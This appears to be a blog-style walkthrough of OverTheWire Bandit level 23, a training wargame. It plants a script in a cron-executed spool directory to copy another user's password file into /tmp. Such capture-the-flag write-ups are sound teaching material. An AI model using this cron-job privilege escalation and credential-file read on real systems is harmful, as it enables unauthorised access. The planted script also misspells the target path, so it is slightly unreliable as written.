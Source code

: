```yaml
---
layout: post
title: Bandit 23
date: 2023-11-24 09:04 -0600
categories: OvertheWire Bandit
tags: note
permalink: "/:categories/:title"
---
```



```bash
cd /etc/cron.d
```
- check for cron jobs 

```bash
cat cronjob_bandit24
```

```
null

```


```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

```

- The script executes and deletes all files in `/var/spool/bandit24/foo`. This is the case because it is run as `bandit24`
- The for loop goes through the files but checks `.` and `..` are skipped
- Inner if statement is execute if the owner of the file is `bandit23`
	- Exploiting this feature, we can insert a script that can cat `/etc/bandit_pass/bandit24` to a file in `/tmp`

```bash
mkdir -p /tmp/bacon
```

```bash
cd /tmp/bacon
```

```bash
touch spy.sh
```

```bash
chmod 777 spy.sh
```
- Change permissions of the shell to allow `bandit24` to run the script

```bash
vim spy.sh
```

```bash
#!/bin/bash

cat /etc/bandit_pass/bandi24 > /tmp/bacon/password
```

```bash
touch password
chmod 666 password
```
- Set permission of the password file which allows everyone to write information to the file

```bash
cp spy.sh /var/spool/bandit24/foo
```
- Copy the script to `/var/spool/bandit24` and wait for the script running automatically in a minute

```bash
cat /tmp/bacon/password
```
